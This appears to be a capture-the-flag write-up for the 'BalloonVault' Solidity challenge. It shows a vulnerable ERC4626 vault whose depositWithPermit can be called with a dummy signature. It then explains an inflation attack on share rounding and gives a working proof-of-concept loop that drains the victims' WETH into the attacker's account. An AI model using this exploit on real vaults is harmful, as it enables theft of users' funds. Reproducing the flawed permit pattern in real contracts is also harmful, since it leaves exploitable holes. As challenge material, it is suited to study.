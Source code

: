 # BalloonVault

## Challenge

This challenge provides us with an implementation of an ERC4626 Vault:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {ERC20, IERC20Permit, ERC4626} from "@openzeppelin/contracts/token/ERC20/extensions/ERC4626.sol";

/**
 * @title BallonVault
 */
contract BallonVault is ERC4626 {

    /**
     * @dev Constructor that sets the address of the underlying asset of the Vault (an ERC20 token)
     * @param underlying The address of the underlying asset
     */
    constructor(address underlying) ERC20("BallonVault", "E4626B") ERC4626(ERC20(underlying)) {}

    /**
     * @dev Deposit ERC20 tokens into the Vault
     * @param from The address to deposit the ERC20 tokens from
     * @param amount The amount of ERC20 tokens to deposit
     * @param deadline The deadline for the deposit to be made
     * @param v The v value of the signature
     * @param r The r value of the signature
     * @param s The s value of the signature
     */
    function depositWithPermit(address from, uint256 amount, uint256 deadline, uint8 v, bytes32 r, bytes32 s)
        external
    {
        IERC20Permit(address(asset())).permit(from, address(this), amount, deadline, v, r, s);

        _deposit(from, from, amount, previewDeposit(amount));
    }
}
```

## Solution

The solution relies on 2 steps. 

### 1. Missing checks in depositWithPermit()

The function depositWithPermit() is missing checks on the return value of the permit() function. Due to this, you can present it with any signature and it will still call the deposit() function. This function still has some security features and will revert if there is no approval from the "from"-address to the vault. Nevertheless, this allows us to transfer money from contracts that have open approvals to the vault, to the vault. But this in itself doesn't help us in stealing the money as we can only transfer the weth to the vault but not ourselves.

### 2. Exploiting the Division

There is a very well-known vulnerability in ERC4626 vaults, which is called an [Inflation Attack](https://mixbytes.io/blog/overview-of-the-inflation-attack). This attack works in multiple steps. In our case we can implement it like this:

1. Use the depositWithPermit() with a valid/invalid signature to deposit 1 wei
2. Transfer our whole balance to the vault using weth.transfer()
3. Force Alice/Bob to deposit the amount we transferred using transfer()
4. Due to the totalAsset() being 1 more than the deposit by Alice/Bob and the totalSupply() being 1, they won't get a single share
5. Withdraw our 1 share and get all the money in the vault
6. Repeat until everyone is drained

In my case, I first did this with 2 loops that were looping 50x each, but I decided to then improve and always use our actual balance which simplified the code (a bit). Below you can see my POC:

```solidity
//First we change our eth to weth
weth.deposit{value: 10 ether}();

//Then we approve the vault to spend our weth
//NOTE: This would make the attacker vulnerable to the same attack. 
weth.approve(address(vault), type(uint256).max);

//Tracker of our balance
uint256 currentAttackerBalance = weth.balanceOf(address(attacker));

//Now we loop until we have more weth than Alice
while(currentAttackerBalance < weth.balanceOf(address(alice)))
{
    //Deposit 1 weth to get 1 share
    vault.depositWithPermit(address(attacker), 1, block.number + 100, 0, 0, 0);

    //Transfer all our money to the vault
    weth.transfer(address(vault), currentAttackerBalance-1);

    //Let Alice deposit but due to the division, she gets 0 shares
    vault.depositWithPermit(alice, currentAttackerBalance-1, block.number + 100, 0, 0, 0);

    //Now we withdraw our 1 share which is all the money in the vault
    vault.withdraw(vault.maxWithdraw(attacker), address(attacker), address(attacker));

    //Update the balance
    currentAttackerBalance = weth.balanceOf(address(attacker));
}

//Now we empty the rest of Alice's account, we do the same as above
vault.depositWithPermit(address(attacker), 1, block.number + 100, 0, 0, 0);
weth.transfer(address(vault), weth.balanceOf(address(alice)));
vault.depositWithPermit(alice, weth.balanceOf(address(alice)), block.number + 100, 0, 0, 0);
vault.withdraw(vault.maxWithdraw(attacker), address(attacker), address(attacker));


//As we have the funds now, Bob is super easy to drain, we do the same as above
vault.depositWithPermit(address(attacker), 1, block.number + 100, 0, 0, 0);
weth.transfer(address(vault), weth.balanceOf(address(bob)));
vault.depositWithPermit(bob, weth.balanceOf(address(bob)), block.number + 100, 0, 0, 0);
vault.withdraw(vault.maxWithdraw(attacker), address(attacker), address(attacker));
```